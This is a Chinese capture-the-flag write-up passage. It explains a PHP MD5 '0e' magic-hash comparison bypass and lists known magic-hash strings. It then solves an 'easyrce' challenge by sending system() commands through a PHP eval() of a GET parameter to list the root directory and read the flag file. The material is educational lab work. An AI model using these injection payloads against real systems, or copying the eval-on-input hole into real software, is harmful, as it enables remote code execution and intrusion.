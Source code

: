 ？name=QNKCDZO

password=240610708

**考点：**

**MD5值以0e开头的纯数字字符串，php在进行科学计算法的时候才会将它转化为0**

**常见的字符串：**

**QNKCDZO**

**240610708**

**s878926199a**

**s155964671a**

**s21587387a**

------

### 3.easyrce

打开网站得到一段代码

 `<?php` 

`error_reporting(0);`

`highlight_file(__FILE__);`

`if(isset($_GET['url']))`

`{` 

`eval($_GET['url']);`

`}` 

`?>` 

读代码可知，要求传入一个url的参数，由此想到查看一下根目录

以get方式传入命令：

？url=system("ls /");

或？url=system("ls%20/");





得到根目录：

bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 

发现有一个文件叫flllllaaaaaaggggggg，查看：

？url=system("cat /flllllaaaaaaggggggg");

或？url=system("cat%20/flllllaaaaaaggggggg");
